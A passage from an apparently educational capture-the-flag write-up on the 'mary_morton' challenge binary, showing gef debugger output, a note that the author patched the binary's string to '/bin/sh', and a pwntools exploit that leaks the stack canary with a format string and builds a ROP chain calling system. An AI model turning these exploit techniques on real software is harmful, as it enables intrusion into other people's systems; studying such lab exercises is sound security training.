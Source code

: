 ```
gef➤  b *0x400826
Breakpoint 1 at 0x400826
gef➤  r
Starting program: /Hackery/pod/modules/ret_2_system/asis17_marymorton/mary_morton 
```

then once you reach the breakpoint:

```
Breakpoint 1, 0x0000000000400826 in ?? ()
gef➤  find /bin/sh
Invalid size granularity.
gef➤  search-pattern /bin/sh
[+] Searching '/bin/sh' in memory
[+] In '/Hackery/pod/modules/ret_2_system/asis17_marymorton/mary_morton'(0x400000-0x401000), permission=r-x
  0x400b2b - 0x400b32  →   "/bin/sh" 
[+] In '/Hackery/pod/modules/ret_2_system/asis17_marymorton/mary_morton'(0x600000-0x601000), permission=r--
  0x600b2b - 0x600b32  →   "/bin/sh" 
[+] In '/lib/x86_64-linux-gnu/libc-2.27.so'(0x7ffff79e4000-0x7ffff7bcb000), permission=r-x
  0x7ffff7b97e9a - 0x7ffff7b97ea1  →   "/bin/sh" 
=
```

We can see here that the binary has the string `"/bin/sh"` is hardcoded at `0x400b2b`. This is the part of the binary that I modified. Originally it held the string `"/bin/cat ./flag"` which would print out the contents of the flag, so we would solve the challenge. However I decided to chaneg the string to give us a shell instead of just simply printing the flag. We should be able to use that as the argument for system. 

## Exploit

With all of those things, we can write the python exploit:

```
#First import pwntools
from pwn import *

#Establish the target process
target = process('./mary_morton_patched')
gdb.attach(target, gdbscript='b *0x4009a5')

raw_input()

#Establish the address for the ROP chain
gadget0 = 0x400ab3
cat_adr = 0x400b2b
sys_adr = 0x4006a0

#Recieve and print out the opening text
print target.recvuntil("Exit the battle")

#Execute the format string exploit to leak the stack canary
target.sendline("2")
target.sendline("%23$llx")
target.recvline()
canary = target.recvline()
canary = int(canary, 16)
print "canary: " + hex(canary)
print target.recvuntil("Exit the battle")

#Put the Rop chain together, and send it to the server to exploit it
target.sendline("1")
payload = "0"*136 + p64(canary) + "1"*8 + p64(gadget0) + p64(cat_adr) + p64(sys_adr)
```
